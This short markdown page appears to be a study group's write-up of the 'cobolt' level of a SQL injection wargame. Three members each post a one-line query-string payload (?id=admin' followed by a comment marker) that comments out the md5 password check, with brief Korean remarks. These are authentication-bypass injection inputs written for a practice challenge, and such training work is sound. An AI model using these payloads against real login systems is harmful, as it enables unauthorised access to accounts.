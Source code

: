 ## Q2. cobolt
<img src="/photo/prob_02.PNG" width="100%" height="100%" alt="problem"></img>

#### 5thofnovmbr
```
풀이: ?id=admin'--%20
```
```diff
+ 따옴표와 주석
- 흠흠 굳굳
```

#### TOR-s
```
풀이: ?id=admin'%23
```
```diff
+ 여러가지 주석을 통해 문제를 풀 수 있었다.
```
#### zero526 
```
풀이: ?id=admin'--+
```
```diff
+ gremlin문제와 동일하게 id에 admin을 삽입하고 ' and pw=md5('{$_GET[pw]}')"; 를 주석처리해 해결했다
```
